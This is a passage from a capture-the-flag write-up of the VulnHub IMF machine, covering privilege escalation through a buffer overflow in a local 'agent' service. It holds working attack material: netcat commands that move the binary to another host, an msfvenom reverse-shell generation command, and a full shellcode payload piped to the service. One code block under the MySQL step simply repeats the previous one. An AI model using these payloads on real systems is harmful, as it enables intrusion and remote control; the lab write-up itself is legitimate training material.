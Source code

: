 \newpage
## Phase #3: Privilege Escalation
1\. Using `flag5` as a reference, we search for files with name `agent` and find two hits. Upon exploring the `agent` binary it is found that it is also running as a service and bound to `7788/tcp`. Since the port is not exposed outside and `knockd` daemon is also running, it is assumed that there is a port knocking requirement here. We also find a `access_codes` file with the required sequence of ports to knock. Upon trying this sequence, we were unable to get the `7788/tcp` port opened and continued further:  
``` {.python .numberLines}
find / -name agent 2>/dev/null
  /usr/local/bin/agent
  /etc/xinetd.d/agent

```

![writeup.privesc.steps.1.1](Box%20Write-ups/vulnhub.imf/screenshot16.png)  

![writeup.privesc.steps.1.2](Box%20Write-ups/vulnhub.imf/screenshot16a.png)  

![writeup.privesc.steps.1.3](Box%20Write-ups/vulnhub.imf/screenshot16b.png)  

2\. We find MySQL credentials within `/var/www/html/imfadministrator/cms.php` file but those didn't seem to be correct and as such we moved on:  
``` {.python .numberLines}
find / -name agent 2>/dev/null
  /usr/local/bin/agent
  /etc/xinetd.d/agent

```

![writeup.privesc.steps.2.1](Box%20Write-ups/vulnhub.imf/screenshot17.png)  

3\. We transfer the binary locally and start exploring it:  
``` {.python .numberLines}
cat /usr/local/bin/agent | base64 >agentfile
nc -nlvp 9090 >agentfile
nc 192.168.92.178 9090 <agentfile

```

![writeup.privesc.steps.3.1](Box%20Write-ups/vulnhub.imf/screenshot18.png)  

![writeup.privesc.steps.3.2](Box%20Write-ups/vulnhub.imf/screenshot19.png)  

4\. It requests for an agent ID which we find to be `48093572` using `objdump`. Upon entering this ID we are presented multiple options and the #3 option seems vulnerable to a buffer overflow. We found the EIP offset to be 168 and then use [ROPShell](http://ropshell.com/ropsearch?h=fabc1afd43f668df0b812213567d032c) to find a `call` or `jmp` that can be used for redirecting control. We created a linux reverse shell using `msfvenom`, crafted our exploit and used `netcat` to submit it as payload to the locally running instance of the vulnerable `agent` binary:  
``` {.python .numberLines}
objdump -d agent | grep "<main>:" -A30
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.92.179 LPORT=4433 -f python -b "\x00\x0a\x0d"
nc -nlvp 4433
echo -en "48093572\n3\n\xbe\xc3\x35\x65\xa2\xd9\xc8\xd9\x74\x24\xf4\x5a\x33\xc9\xb1\x12\x83\xc2\x04\x31\x72\x0e\x03\xb1\x3b\x87\x57\x04\x9f\xb0\x7b\x35\x5c\x6c\x16\xbb\xeb\x73\x56\xdd\x26\xf3\x04\x78\x09\xcb\xe7\xfa\x20\x4d\x01\x92\x72\x05\xad\xd1\x1b\x54\x4e\x04\x8d\xd1\xaf\x96\x4b\xb2\x7e\x85\x20\x31\x08\xc8\x8a\xb6\x58\x62\x7b\x98\x2f\x1a\xeb\xc9\xe0\xb8\x82\x9c\x1c\x6e\x06\x16\x03\x3e\xa3\xe5\x44\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x63\x85\x04\x08\x0a" | nc localhost 7788

```
